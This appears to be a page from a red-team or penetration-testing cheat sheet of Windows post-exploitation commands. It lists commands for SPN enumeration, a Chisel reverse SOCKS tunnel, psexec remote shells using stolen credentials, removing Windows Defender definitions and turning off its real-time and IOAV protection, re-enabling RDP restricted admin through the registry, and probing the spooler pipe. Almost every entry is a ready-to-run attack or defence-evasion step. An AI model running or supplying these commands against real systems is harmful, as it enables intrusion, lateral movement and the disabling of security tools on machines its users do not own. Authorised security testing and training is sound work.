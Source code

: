 ## Enum SPN
```
setspn.exe -Q */*
```

## Chisel reverse (on server)
```
sudo ./chisel server -p <listen_port> --reverse --socks5
```

## Chisel reverse (on client)
```
.\chisel.exe client <listen_ip>:<listen_port> R:socks
```

## Windows psexec.exe
```
psexec.exe -u <domain>\<username> -p <password> \\<hostname> cmd.exe
```

## Clean Defender rules
```
"c:\Program Files\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All
```

## Disable Defender realtime monitoring
```
Set-MpPreference -DisableRealtimeMonitoring $true
```

## Disable Defender IOAV Protection
```
Set-MpPreference -DisableIOAVProtection $true
```

## Windows Disable RDP restricted admin
https://www.rebeladmin.com/2016/02/restricted-admin-mode-for-remote-desktop-connections/
```
New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name "DisableRestrictedAdmin" -Value "0" -PropertyType DWORD -Force
```

## Check permission
```
icacls <path>
```

## Check spoolss service
```
dir \\<hostanme>\pipe\spoolss
```
